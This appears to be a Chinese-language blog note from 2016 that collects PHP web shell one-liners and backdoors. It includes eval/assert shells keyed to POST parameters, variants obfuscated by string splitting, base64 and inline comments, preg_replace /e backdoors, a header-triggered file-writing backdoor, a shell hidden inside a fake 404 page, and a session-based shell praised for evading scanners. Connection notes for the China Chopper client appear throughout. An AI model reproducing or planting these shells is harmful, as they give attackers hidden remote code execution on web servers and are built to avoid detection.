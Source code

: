 ```yaml
---
title: 一句话
date: 2016-03-29T21:25:45+08:00
update: 2016-01-01
categories: [网络安全]
tags:
---
```

# PHP
1. ` <?php eval($_POST[$_GET["id"]]);?> `
1. ` <?php eval($_POST[witkey]);?> `
  pwd:[witkey] Encoder:[default]
2. ` <?php assert($_POST[sb]);?> `

2. ` <?php $a = "a"."s"."s"."e"."r"."t";  $a($_POST[cc]);  ?> `
  pwd:[cc] Encoder:[base64]
3. ` <?php
      $ant=base64_decode("YXNzZXJ0");
      $ant($_POST['ant']); `
  pwd:[ant] Encoder:[base64]


5. 菜刀一句话 pwd:[h] Encoder:[base64]
 ` <?php
      $hh = "p"."r"."e"."g"."_"."r"."e"."p"."l"."a"."c"."e";
      $hh("/[discuz]/e",$_POST['h'],"Access"); `
4. `  <?php ($_=@$_GET[2]).@$_($_POST[1])?> `
  ?2=assert pwd:[1] Encoder:[base64]

` <?php @$_GET[a]($_POST[1]);?> `
### 超级隐蔽的PHP后门：
` ?a=assert&b=${fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29}; `
` <?php $_GET[a]($_GET[b]);?> `
利用方法：

--------------------------------------------------------------------------------
重命名任何文件
```
<?php
  $reg="c"."o"."p"."y";
  $reg($_FILES[MyFile][tmp_name],$_FILES[MyFile][name]);
```

5、include ($uid);
//gif插一句话
//危险的include函数，直接编译任何文件为php格式运行，POST www.xxx.com/index.php?uid=/home/www/bbs/image.gif


```
<?php
@$_="s"."s"./*-/*-*/"e"./*-/*-*/"r";
@$_=/*-/*-*/"a"./*-/*-*/$_./*-/*-*/"t";
@$_/*-/*-*/($/*-/*-*/{"_P"./*-/*-*/"OS"./*-/*-*/"T"}
[/*-/*-*/0/*-/*-*/-/*-/*-*/2/*-/*-*/-/*-/*-*/5/*-/*-*/]); // 密码-7
?>

```

危险的include函数，直接编译任何文件为php格式运行 pwd:[xbid] Encoder:[base64]
```
<?php
$filename=$_GET['xbid'];
include ($filename);
```

```
<?php
$_="";
$_[+""]='';
$_="$_"."";
$_=($_[+""]|"").($_[+""]|"").($_[+""]^"");
?>
<?php ${'_'.$_}['_'](${'_'.$_}['__']);?>
	在菜刀里写http://site/2.php?_=assert&__=eval($_POST['pass']) 密码是pass。如果你用菜刀的附加数据的话更隐蔽，或者用其它注射工具也可以，因为是post提交的。
```
toby57 早期用的后门
```
<?php
if(crypt($_SERVER['HTTP_H0ST'],51)==’514zR17F8j0q6′){@file_put_contents($_SERVER['HTTP_X'],$_SERVER['HTTP_Y']);header("Location: ./".$_SERVER['HTTP_X']);};
?>
```



```

  2、
  $filename=$_GET['xbid'];
  include ($filename);
  //危险的include函数，直接编译任何文件为php格式运行
  3、
  $reg="c"."o"."p"."y";
  $reg($_FILES[MyFile][tmp_name],$_FILES[MyFile][name]);
  //重命名任何文件
  4、
  $gzid = "p"."r"."e"."g"."_"."r"."e"."p"."l"."a"."c"."e";
  $gzid("/[discuz]/e",$_POST['h'],"Access");
  //菜刀一句话
  5、include ($uid);
  //危险的include函数，直接编译任何文件为php格式运行，POST www.xxx.com/index.php?uid=/home/www/bbs/image.gif
  //gif插一句话
  6、典型一句话
  程序后门代码
  <?php eval_r($_POST[sb])?>
  程序代码
  <?php @eval_r($_POST[sb])?>
  //容错代码
  程序代码
  <?php assert($_POST[sb]);?>
  //使用lanker一句话客户端的专家模式执行相关的php语句
  程序代码
  <?$_POST['sa']($_POST['sb']);?>
  程序代码
  <?$_POST['sa']($_POST['sb'],$_POST['sc'])?>
  程序代码
  <?php
  @preg_replace("/[email]/e",$_POST['h'],"error");
  ?>
  //使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入
  程序代码
  <O>h=@eval_r($_POST1);</O>
  程序代码
  <script language="php">@eval_r($_POST[sb])</script>
  //绕过<?限制的一句话
  ```
### 超级隐蔽的PHP后门：

` <?php $_GET[a]($_GET[b]);?> `
利用方法：
` ?a=assert&b=${fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29}; `


### 利用404页面隐藏PHP小马：
```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
<?php
@preg_replace("/[pageerror]/e",$_POST['error'],"saft");
header('HTTP/1.1 404 Not Found');
?>
```
### 无特征隐藏PHP一句话：
```
<?php
session_start();
$_POST['code'] && $_SESSION['theCode'] = trim($_POST['code']);
$_SESSION['theCode']&&preg_replace('\'a\'eis','e'.'v'.'a'.'l'.'(base64_decode($_SESSION[\'theCode\']))','a');
```

	将$_POST['code']的内容赋值给$_SESSION['theCode']，然后执行$_SESSION['theCode']，亮点是没有特征码。用扫描工具来检查代码的话，是不会报警的，达到目的了。
